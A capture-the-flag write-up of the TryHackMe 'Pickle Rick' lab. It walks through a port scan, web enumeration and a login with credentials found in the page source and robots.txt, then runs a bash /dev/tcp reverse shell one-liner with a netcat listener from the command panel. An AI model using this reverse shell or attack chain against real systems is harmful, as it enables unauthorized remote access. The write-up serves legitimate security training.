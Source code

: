 ```yaml
---
title: TryHackMe - PickleRick
author: Bonface
date: 2024-02-28 00:00:00 +0000
categories:
  - TryHackMe
  - Easy
tags:
  - tryhackme
  - linux
  - rustscan
  - privesc
  - http
  - ssh
  - command_injection
image:
  path: /assets/img/try_hack_me/Easy/Pickle_Rick/0.jpeg
  alt: Pickle_Rick
---
```


# Pickle Rick

A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty-themed challenge requires you to exploit a web server and find three ingredients to help Rick make his potion and transform himself back into a human from a pickle.

Deploy the virtual machine on this task and explore the web application:

After deploying the machine, I got this IP address: 10.10.103.97

First step I ran a port scan using rust scan then passed the results to nmap for further enumeration.

## Command:
```sh
rustscan -a 10.10.103.97 --ulimit 5000 -- -sV -sC -A 
```
## Results:
```sh
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 74:70:7d:9f:98:e4:cd:52:32:c0:ff:f5:36:e1:d0:ee (RSA)
| ssh-rsa
AAAAB3NzaC1yc2EAAAADAQABAAABgQC1Vs3KBBL61RwHQIuO7T3eipuIl9cCXfeu2r2xeYuOgO3nDc5Ne5Obe3x7
vLHFgmWB+H9XvTfF2V0RzTaMrwbY3kl5SOEyO06li5hsOUkbAX5C0SNy7JuY4LUmO5yMl5uDLIRTnUxiINoQvs73s3
FiW7dW+JSP/g45BIpjcXjmT/PnpJFXdRNFRLM/
Q7qSBBiV9ZzSJaGZ7YTV0eKoTxVzCPgakYFfW73t1vHpbzj8iwsF90evJcJpL+YwngAEs0LouGGYZn5HR7W3OWIGX-
nBGNIl7ckVee+1CpGesNT3Cbo7on1b0QIV7D5V0hBroixInxLkUc+3Htz+2+FfF1a5N31iBDMOcF+lawOjh2l/
7v6q52PKUcDiqMkTikJ5k63rXQM1rLXgmOyQqTFrJ9vDdmw78w6LnJl1li2DxPVkBTDZepLahueKwqw/
+mjuTy4USEO5+eYL1fVtP4mrexN+TeSB6XEZozHnmI9Wg+m8RCZtRjnp/YXLrUxRUGvhUOJk=
|   256 05:f9:06:09:4a:e7:72:4c:db:90:8d:f9:39:36:b0:c7 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJYDUeKr/1OZ7U6+X/
d8gUozr2898+u24rcy3LtI+9DFPNDJao7i7d6bAfwLA8q87Iy2PwhvE10Shgd328+GwdI=
|   256 55:28:85:f3:62:63:e3:db:4b:ca:a8:59:76:24:6c:15 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGA6kp/0ZDDDylA9pNJK9A5y/aIMSOfvJYhS739xdVGi
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-title: Rick is sup4r cool

```
We have two open ports that is ssh (22) and http (80).

ssh will need user login details that we don't have yet so we'll skip that and move on to HTTP (80).



# WEB ENUMERATION  
  
## To Do list 

- Visit the site  
- Look around for any useful details  
- View the source code  
- Visit robots.txt  
- Run gobuster  



## The site
![](../assets/img/try_hack_me/Easy/Pickle_Rick/1.png)
From the content, I think I will have to use burp suite at some point.  
But let's continue and come back to it later on.


## Source code
![](../assets/img/try_hack_me/Easy/Pickle_Rick/2.png)

Here I get a username that is good.
- Username: R1ckRul3s

## Robots.txt
![](../assets/img/try_hack_me/Easy/Pickle_Rick/3.png)

Got this text but not sure what it is:  
- "Wubbalubbadubdub"

## Gobuster

## Command
```sh
gobuster dir -u http://10.10.103.97 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
The wordlist was taking some time and giving me lots of errors so I changed to ...../dirb/common.txt
![](../assets/img/try_hack_me/Easy/Pickle_Rick/4.png)


## Run nikto scan


```sh
nikto -h 10.10.103.97
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.10.103.97
+ Target Hostname:    10.10.103.97
+ Target Port:        80
+ Start Time:         2024-06-21 15:22:25 (GMT3)
---------------------------------------------------------------------------
## /login.php: Cookie PHPSESSID created without the httponly flag. See: https://developer.mozilla.org/en-US/docs/
Web/HTTP/Cookies

```
![](../assets/img/try_hack_me/Easy/Pickle_Rick/5.png)

At least now I know what to do with the username and the other text from robots.txt:  
- username: R1ckRul3s  
- password: Wubbalubbadubdub  

Successful login  
![](../assets/img/try_hack_me/Easy/Pickle_Rick/6.png)


Here we can execute commands.  
Before that, I want to try something.  
I want to get a reverse shell to my machine. Hope it works.  

Here is a bash reverse shell :  

```sh
bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
```

Modified it to work with my IP:

```sh
bash -c 'exec bash -i &>/dev/tcp/$RHOST/1234 <&1'
```

Then made a nc listener on my attacker pc:

```sh
nc -lvp 1234
```

It worked. Now I have a shell....

The user has all root privs.  
# GO GET THE FLAGS!!!